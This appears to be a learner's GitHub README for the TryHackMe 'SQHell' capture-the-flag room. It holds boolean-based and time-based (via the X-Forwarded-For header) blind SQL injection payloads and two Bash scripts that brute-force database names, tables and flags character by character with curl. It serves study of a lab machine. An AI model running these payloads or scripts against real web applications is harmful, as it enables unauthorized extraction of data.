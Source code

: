 > Repository created to showcase the queries and scripts developed to solve and obtain the flags of the tryhackme | sqhell machine (https://tryhackme.com/room/sqhell), specifically the flags that required the use of SQL injection techniques: 'Time-based' > X-Forwarded-For and 'Boolean-based'. I want to clarify that I am currently learning about these vulnerabilities and scripting in Bash, so any recommendations and assistance are highly appreciated.

# Blind SQL Injection > ‘Boolean based’

## Determine the length of DB: 
> 
```sql
> admin' AND LENGTH(DATABASE())=8-- - (if return false if correct and the lenght is 8)
> we can try with time sleep to confirm this:
> admin' AND LENGTH(DATABASE())=8 and sleep(20)-- -
```

## Extracting the database name:
```sql
admin' and (select substr(database(),1,1))='s'-- -
```

## Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.68.51/register/user-check?username=admin"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '{' '}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}
            payload="%27%20and%20(select%20substr(database(),$position,1))=%27$character%27--%20-"
            url_payload=$main_url$payload
            response=$(curl -s "$url_payload")
            echo -ne "\r\033[1;34m[+] Retrieving data:[\033[0m$database$character]"

            if [[ $response == *"false"* ]]; then
                database+=$character
                break
            fi

        done
       
    done

    echo -e "\n\033[1;32mData found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
admin' and (select substr(table_name,1,1) from information_schema.tables where table_schema='sqhell_3' limit 1)='f'-- -
```
## Check columns:
```sql
admin' and (select substr(column_name,1,1) from information_schema.columns where table_schema='sqhell_3' and table_name='flag' limit 1,1)='f'-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
admin' and (select substr(flag,1,1) from flag limit 1)='t'-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> admin' and (select length(flag) from flag limit 1)=43-- -
```

# Blind SQL Injection > ‘Time based’ > X-Forwarded-For

## Determine the length of DB: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND LENGTH(DATABASE())=8-- -
```

## Extracting the database name:
```sql
X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), 1, 1))='s'-- -
```

** Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.65.29"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '\{' '\}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}

            payload="1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), $position, 1))='$character'-- -"
            #url_payload=$main_url$payload
            echo -ne "\r\033[1;34m[+] Extracting the database name:[\033[0m$database$character]"
            time_start=$(date +%s.%N)
            response=$(curl -s -H "X-Forwarded-For:$payload" "$main_url")
            time_stop=$(date +%s.%N)

            duration=$(echo "$time_stop - $time_start" | bc )


            if (( $(echo "$duration >= 5" | bc -l) )); then
                database+="$character"
                break
            fi

        done

    done

    echo -e "\n\033[1;32mdatabase found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.tables WHERE table_schema='sqhell_1' AND SUBSTR(table_name, 1, 1) = 'f')-- -
```
## Check columns:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.columns WHERE table_schema='sqhell_1' and table_name='flag' AND SUBSTR(column_name, 1, 1) = 'f')-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```
